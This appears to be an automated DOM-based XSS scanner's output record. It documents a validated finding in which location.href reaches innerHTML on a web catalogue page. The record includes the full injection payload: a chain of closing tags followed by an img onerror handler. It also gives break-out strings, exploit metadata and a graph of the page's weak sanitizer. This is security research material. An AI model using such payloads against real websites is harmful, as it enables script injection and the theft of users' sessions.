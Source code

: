 // Finding: 15bebf38-a129-4da4-8470-cad43532e226
// Finding.url: https://onlinekat.example229.com/blaetterkatalog-frontend/onlinekat/WH_0521_DE_S/index.html##'></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('334438694ba54e699ee19bf41bccd9ce')><!--/*
// Finding.parentloc: https://onlinekat.example229.com/blaetterkatalog-frontend/onlinekat/WH_0521_DE_S/index.html##'></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('334438694ba54e699ee19bf41bccd9ce')><!--/*
// Finding.domain: onlinekat.example229.com
// Finding.base_domain: example229.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 5
// Sanitizer.name: Metacharacter
// Sanitizer.location: https://onlinekat.example229.com/blaetterkatalog-frontend/onlinekat/WH_0521_DE_S/javascript/main.js - Metacharacter:356:115
// Finding.begin: 263
// Finding.end: 270
// Finding.original_uuid: b629127d-19d8-44d8-a02a-fc651d3c792b
// Finding.TwentyFiveMillionFlowsId: -1494926087
// Finding.script: https://onlinekat.example229.com/blaetterkatalog-frontend/onlinekat/WH_0521_DE_S/javascript/jquery-1.9.1.min.js
// Finding.line: 4
// Exploit.uuid: 33443869-4ba5-4e69-9ee1-9bf41bccd9ce
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: href
// Exploit.quote_type: '
// Exploit.tag: a
// Exploit.break_out: #'></iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: #'></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 0
// Exploit.end_taint_url: 5
// Exploit.replace_begin_url: 88
// Exploit.replace_end_url: 88
// Exploit.replace_begin_param: 73
// Exploit.replace_end_param: 73
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: 801464647
// DepGraph.sanitizer_hash: 801464647

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="preg_replace"];
n2 [shape=box, label="RegExp: /\//"];
n3 [shape=box, label="Lit: %2F"];
n4 [shape=box, label="Var: x"];
n5 [shape=ellipse, label="preg_replace"];
n6 [shape=box, label="RegExp: /[ ]/"];
n7 [shape=box, label="Lit: %20"];
n8 [shape=box, label="Var: x"];
n9 [shape=ellipse, label="preg_replace"];
n10 [shape=box, label="RegExp: /[#]/"];
n11 [shape=box, label="Lit: %23"];
n12 [shape=box, label="Var: x"];
n13 [shape=ellipse, label="preg_replace"];
n14 [shape=box, label="RegExp: /[=]/"];
n15 [shape=box, label="Lit: %3D"];
n16 [shape=box, label="Var: x"];
n17 [shape=ellipse, label="preg_replace"];
n18 [shape=box, label="RegExp: /[:]/"];
n19 [shape=box, label="Lit: %3A"];
n20 [shape=box, label="Var: x"];
n21 [shape=ellipse, label="preg_replace"];
n22 [shape=box, label="RegExp: /[']/"];
n23 [shape=box, label="Lit: %27"];
n24 [shape=box, label="Var: x"];
n25 [shape=box, label="Var: x"];
n26 [shape=doubleoctagon, label="Return: x"];
n4 -> n0;
n1 -> n2;
n1 -> n3;
n1 -> n4;
n8 -> n1;
n5 -> n6;
n5 -> n7;
n5 -> n8;
n12 -> n5;
n9 -> n10;
n9 -> n11;
n9 -> n12;
n16 -> n9;
n13 -> n14;
n13 -> n15;
n13 -> n16;
n20 -> n13;
n17 -> n18;
n17 -> n19;
n17 -> n20;
n24 -> n17;
n21 -> n22;
n21 -> n23;
n21 -> n24;
n25 -> n21;
n26 -> n25;
}